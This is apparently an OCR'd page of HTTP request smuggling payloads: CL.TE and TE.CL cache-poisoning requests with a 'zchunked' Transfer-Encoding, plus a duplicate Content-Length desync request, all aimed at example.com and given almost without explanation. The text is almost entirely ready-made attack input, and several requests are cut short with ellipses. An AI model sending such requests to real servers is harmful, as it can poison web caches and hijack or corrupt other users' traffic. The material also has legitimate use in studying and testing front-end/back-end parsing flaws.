 #### CL.TE poisoning
```
POST /search HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 53
Transfer-Encoding: zchunked

17
=x&q=smuggling&x=
0

GET /404 HTTP/1.1
Foo: bPOST /search HTTP/1.1
Host: example.com
...
```

#### TE.CL poisoning
```
POST /search HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Transfer-Encoding: zchunked

96
GET /404 HTTP/1.1
X: x=1&q=smuggling&x=
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100

x=
0

POST /search HTTP/1.1
Host: example.com
...
```


# Request smuggling .......

If the client sends the following request:

```
POST / HTTP/1.1\r\n
HOST: example.com\r\n
Content-Length: 6\r\n
Content-Lenght: 5\r\n
\r\n
12345GPOST / HTTP/1.1\r\n
Host: example.com
...
```
